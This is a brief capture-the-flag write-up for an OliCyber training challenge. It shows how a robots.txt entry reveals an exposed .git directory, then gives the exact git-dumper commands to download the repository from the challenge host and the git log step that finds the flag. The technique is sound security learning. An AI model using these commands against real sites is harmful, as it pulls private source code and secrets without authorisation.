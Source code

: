 # URL
https://training.olicyber.it/challenges#challenge-55
# Concept
* robots.txt
* git repo dumping
* git log enum
# Method
* there's a `robots.txt` file on the server
* in that file there's reference to a `.git` directory
* we can dump the git repo using the `git-dumper` tool
* we can install the `git-dumper` tool using pip
```
pip install git-dumper
```
* we should probably do that in a virtual environment
```
python -m venv myenv
virtualenv myenv
cd myenv
source bin/activate
```
* then use `git-dumper` to dump the repo
```
git-dumper http://iforgot.challs.olicyber.it/.git iforgot/
```
* the flag is in the git logs
```
git log -p
```

